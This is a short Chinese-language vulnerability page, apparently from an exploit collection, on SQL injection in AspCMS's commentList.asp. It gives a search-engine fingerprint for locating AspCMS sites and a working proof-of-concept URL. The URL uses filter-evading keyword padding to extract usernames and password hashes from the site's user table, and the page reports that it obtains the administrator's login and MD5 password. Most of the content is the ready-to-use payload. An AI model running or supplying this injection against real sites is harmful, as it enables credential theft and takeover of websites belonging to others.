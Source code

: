 # AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

<a-checkbox checked>AspCMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ASPCMS"</a-checkbox></br>

## 漏洞复现

通过网站源码响应判断CMS

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628478800340-8ab8b7c0-3f74-4294-bac5-4153b18ae8c9.png)

验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628478943060-7c05774b-519d-47cf-ad9a-05fb52f74253.png)

成功获取管理员账号以及密码的MD5